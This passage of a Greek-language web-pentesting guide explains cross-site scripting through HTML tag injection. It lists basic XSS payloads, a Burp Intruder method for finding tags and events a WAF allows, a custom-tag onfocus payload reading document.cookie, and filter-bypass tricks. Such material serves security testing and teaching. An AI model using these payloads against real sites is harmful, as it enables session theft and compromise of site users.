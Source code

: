 Όταν η είσοδός σας αντικατοπτρίζεται **μέσα στη σελίδα HTML** ή μπορείτε να ξεφύγετε και να εισαγάγετε κώδικα HTML σε αυτό το πλαίσιο, το **πρώτο** πράγμα που πρέπει να κάνετε είναι να ελέγξετε αν μπορείτε να καταχραστείτε το `<` για να δημιουργήσετε νέες ετικέτες: Απλώς προσπαθήστε να **αντικατοπτρίσετε** αυτό το **χαρακτήρα** και ελέγξτε αν είναι **HTML encoded** ή **διαγραφεί** ή αν είναι **αντικατοπτρισμένο χωρίς αλλαγές**. **Μόνο στην τελευταία περίπτωση θα μπορέσετε να εκμεταλλευτείτε αυτή την περίπτωση**.\
Για αυτές τις περιπτώσεις επίσης **κρατήστε στο μυαλό σας** [**Client Side Template Injection**](../client-side-template-injection-csti.md)**.**\
_**Σημείωση: Ένα σχόλιο HTML μπορεί να κλείσει χρησιμοποιώντας\*\*\*\***** ****`-->`**** ****ή \*\*\*\*****`--!>`**_

Σε αυτή την περίπτωση και αν δεν χρησιμοποιούνται μαύρες/λευκές λίστες, θα μπορούσατε να χρησιμοποιήσετε payloads όπως:
```html
<script>alert(1)</script>
<img src=x onerror=alert(1) />
<svg onload=alert('XSS')>
```
Αλλά, αν χρησιμοποιείται μαύρη/λευκή λίστα ετικετών/χαρακτηριστικών, θα χρειαστεί να **δοκιμάσετε ποια ετικέτες** μπορείτε να δημιουργήσετε.\
Μόλις **εντοπίσετε ποιες ετικέτες επιτρέπονται**, θα χρειαστεί να **δοκιμάσετε χαρακτηριστικά/γεγονότα** μέσα στις βρεθείσες έγκυρες ετικέτες για να δείτε πώς μπορείτε να επιτεθείτε στο πλαίσιο.

### Δοκιμή ετικετών/γεγονότων

Πηγαίνετε στο [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) και κάντε κλικ στο _**Αντιγραφή ετικετών στο πρόχειρο**_. Στη συνέχεια, στείλτε όλες αυτές χρησιμοποιώντας το Burp intruder και ελέγξτε αν κάποια ετικέτα δεν ανακαλύφθηκε ως κακόβουλη από το WAF. Μόλις ανακαλύψετε ποιες ετικέτες μπορείτε να χρησιμοποιήσετε, μπορείτε να **δοκιμάσετε όλα τα γεγονότα** χρησιμοποιώντας τις έγκυρες ετικέτες (στην ίδια ιστοσελίδα κάντε κλικ στο _**Αντιγραφή γεγονότων στο πρόχειρο**_ και ακολουθήστε την ίδια διαδικασία όπως πριν).

### Προσαρμοσμένες ετικέτες

Αν δεν βρείτε καμία έγκυρη HTML ετικέτα, μπορείτε να προσπαθήσετε να **δημιουργήσετε μια προσαρμοσμένη ετικέτα** και να εκτελέσετε κώδικα JS με το χαρακτηριστικό `onfocus`. Στο αίτημα XSS, πρέπει να τελειώσετε το URL με `#` για να κάνετε τη σελίδα **να εστιάζει σε αυτό το αντικείμενο** και να **εκτελεί** τον κώδικα:
```
/?search=<xss+id%3dx+onfocus%3dalert(document.cookie)+tabindex%3d1>#x
```
### Blacklist Bypasses

Αν χρησιμοποιείται κάποια μορφή μαύρης λίστας, θα μπορούσατε να προσπαθήσετε να την παρακάμψετε με μερικά ανόητα κόλπα:
```javascript
//Random capitalization
<script> --> <ScrIpT>
<img --> <ImG

//Double tag, in case just the first match is removed
<script><script>
<scr<script>ipt>
<SCRscriptIPT>alert(1)</SCRscriptIPT>

//You can substitude the space to separate attributes for:
/
/*%00/
/%00*/
%2F
%0D
%0C
%0A
%09
```